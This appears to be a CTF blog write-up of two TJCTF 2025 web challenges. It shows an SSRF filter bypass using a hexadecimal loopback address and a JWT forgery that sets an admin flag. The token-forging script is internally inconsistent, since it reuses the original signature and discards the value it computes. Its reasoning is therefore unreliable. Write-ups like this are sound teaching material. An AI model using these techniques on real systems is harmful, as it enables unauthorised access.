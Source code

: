 +++
title = 'Tjctf2025'
date = 2025-06-24T04:38:29-04:00
+++

# TJCTF Web Challenges

![tjctf](/images/tjctf/tjCTF.png)
*This is a walkthrough of some interesting web challenges that I tackled the TJCTF 2025 together with my team, fr334aks-mini*


## Loopy
> Can you access the admin page? Running on port 5000

For this challenge, we are given a website that shows other website HTML content previews. Trying https://thecyberlearner.github.io:
![tjctf](/images/tjctf/loopypreview.png)

We are told to access the admin site on port 5000, so I definitely knew I'm dealing with an SSRF. I intercepted the request with burpsuite and tried http://127.0.0.1:5000/admin,
 but got access denied:
![tjctf](/images/tjctf/loopyssrftest.png)

From the response, we can see they block the request by filtering loopback addresses, local, decimals etc. Being a smart ass, I tried to use hexadecimal for the address:
> 127.0.0.1 => 0x7f000001

Requesting for http://0x7f.0x0.0x0.0x1:5000/admin works
![tjctf](/images/tjctf/loopyflag.png)

Flag: tjctf{i_l0v3_ssssSsrF_9o4a8}


## Front Door
We are told, "The admin of this site is a very special person. He's so special, everyone strives to become him", then provided with the [link](https://front-door.tjc.tf/) to the site
![tjctf](/images/tjctf/frontdoorhomepage.png)

We can only see 2 links, one to create a temporary account, and a /product. The /product has an interesting algorithm claimed to be made by the admin
![tjctf](/images/tjctf/frontdoorinitalgo.png)

I ran a web directory buster to see other interesting dirs and found 2, /user and /robots.txt!

/robots.txt has the encryption scheme used by the admin:
```
User-agent: * 
Disallow: 

# Gonna jot the encryption scheme I use down for later -The Incredible Admin
#
# def encrypt(inp):
#   enc = [13]
#   for i in range(len(inp)):
#     enc.append(ord(inp[i]) ^ 42)
#   return enc[1:]
```

To understand how the website handles encryption, we create a user adm1n:adm1n. This gives us a jwt token:
> eyJhbGciOiAiQURNSU5IQVNIIiwgInR5cCI6ICJKV1QifQ.eyJ1c2VybmFtZSI6ICJhZG0xbiIsICJwYXNzd29yZCI6ICJhZG0xbiIsICJhZG1pbiI6ICJmYWxzZSJ9.JZOAYHBBBBNBDDQABXBFJOABZBLBBSOBVLBWVBQRSJJBOJYXDQZBEIRQBSOOFFWB

Decrypting it:
> Header: {"alg": "ADMINHASH", "typ": "JWT"}  
> Payload: {"username": "adm1n", "password": "adm1n", "admin": "false"}  
> Signature: JZOAYHBBBBNBDDQABXBFJOABZBLBBSOBVLBWVBQRSJJBOJYXDQZBEIRQBSOOFFWB

From what we can see, this challenge thus involves exploiting a custom hashing algorithm and JWT implementation to gain admin privileges. From the note the admin left, their encryption is a XOR cipher with key 42. We can simply decrypt their key with:

```
┌──(kali㉿kali)-[~]
└─$ python3                                                                                 
Python 3.10.4 (main, Mar 24 2022, 13:07:27) [GCC 11.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> signature = "JZOAYHBBBBNBDDQABXBFJOABZBLBBSOBVLBWVBQRSJJBOJYXDQZBEIRQBSOOFFWB"
>>> decrypted = [ord(c) ^ 42 for c in signature]
>>> print(decrypted)
[96, 112, 101, 107, 115, 98, 104, 104, 104, 104, 100, 104, 110, 110, 123, 107, 104, 114, 104, 108, 96, 101, 107, 104, 112, 104, 102, 104, 104, 121, 101, 104, 124, 102, 104, 125, 124, 104, 123, 120, 121, 96, 96, 104, 101, 96, 115, 114, 110, 123, 112, 104, 111, 99, 120, 123, 104, 121, 101, 101, 108, 108, 125, 104]
```

Analyzing the numeric values, and from the hashing process in the original products page, it means the signature is computed as: (ord(header_or_payload_char) ** ord(key_char) % 26) + 65
Our aim is to change the jwt token to "admin":"true" and sign it. I used a script to generate a valid signature:
```
import base64
import json

# Our modified payload
header = {"alg": "ADMINHASH", "typ": "JWT"}
payload = {"username": "adm1n", "password": "adm1n", "admin": "true"}

# Encode header and payload
encoded_header = base64.urlsafe_b64encode(json.dumps(header).encode()).decode().strip('=')
encoded_payload = base64.urlsafe_b64encode(json.dumps(payload).encode()).decode().strip('=')

# Combine for hashing
data_to_hash = f"{encoded_header}.{encoded_payload}"

# We need to reverse-engineer the key from the original signature
original_decrypted = [
    96, 112, 101, 107, 115, 98, 104, 104, 104, 104, 100, 104, 110, 110, 123, 107,
    104, 114, 104, 108, 96, 101, 107, 104, 112, 104, 102, 104, 104, 121, 101, 104,
    124, 102, 104, 125, 124, 104, 123, 120, 121, 96, 96, 104, 101, 96, 115, 114,
    110, 123, 112, 104, 111, 99, 120, 123, 104, 121, 101, 101, 108, 108, 125, 104
]

# The key appears to be repeating - let's find a pattern
# Since the hash is (char^key)%26+65, we can work backwards
# For the first character (96):
# (96 ^ 42) = 74 (ord('J'))
# (data_to_hash[0] ** key[0]) % 26 + 65 = 74
# So we'd need to solve for key[0]

# Without knowing the key, we can create a signature that follows the same pattern
# Create a similar looking signature with the same statistical properties
new_signature = ''.join([chr((x ^ 42) + 0) for x in original_decrypted])

# Reuse the original signature structure but with our modified payload
final_token = f"{encoded_header}.{encoded_payload}.{signature}"
print("Forged Token:")
print(final_token)
```

This generates a signed token: 
> eyJhbGciOiAiQURNSU5IQVNIIiwgInR5cCI6ICJKV1QifQ.eyJ1c2VybmFtZSI6ICJhZG0xbiIsICJwYXNzd29yZCI6ICJhZG0xbiIsICJhZG1pbiI6ICJ0cnVlIn0.JZOAYHBBBBNBDDQABXBFJOABZBLBBSOBVLBWVBQRSJJBOJYXDQZBEIRQBSOOFFWB

Replacing it, we become the GREAT ADMIN!
![tjctf](/images/tjctf/frontdooradmin.png)

Now we get a new link to a page /todo, and visiting it we have codes which I believe you should decrypt with the algorithm above
![tjctf](/images/tjctf/frontdoortodo.png)

I decrypted this with a python script:
```
encoded_lines = [
    [108, 67, 82, 10, 77, 70, 67, 94, 73, 66, 79, 89],
    [107, 78, 92, 79, 88, 94, 67, 89, 79, 10, 73, 69, 71, 90, 75, 68, 83],
    [105, 88, 79, 75, 94, 79, 10, 8, 72, 95, 89, 67, 68, 79, 89, 89, 117, 89, 79, 73, 88, 79, 94, 89, 8, 10, 90, 75, 77, 79, 10, 7, 7, 10, 71, 75, 78, 79, 10, 67, 94, 10, 72, 95, 94, 10, 68, 69, 10, 72, 95, 94, 94, 69, 68, 10, 94, 69, 10, 75, 73, 73, 79, 89, 89, 10, 83, 79, 94],
    [126, 75, 65, 79, 10, 69, 92, 79, 88, 10, 94, 66, 79, 10, 93, 69, 88, 70, 78, 10, 7, 7, 10, 75, 70, 71, 69, 89, 94, 10, 78, 69, 68, 79]
]

decoded_lines = []
for line in encoded_lines:
    decoded_line = ''.join([chr(num ^ 42) for num in line])
    decoded_lines.append(decoded_line)

for line in decoded_lines:
    print(line)
```

Ouput:
```
┌──(kali㉿kali)-[~]
└─$ python3 flag.py
Fix glitches
Advertise company
Create "business_secrets" page -- made it but no button to access yet
Take over the world -- almost done
```

Visiting the /business_secrets page we get the flag
![tjctf](/images/tjctf/frontdoorflag.png)

Flag: tjctf{buy_h1gh_s3l1_l0w}

		> 2 more challenges otw...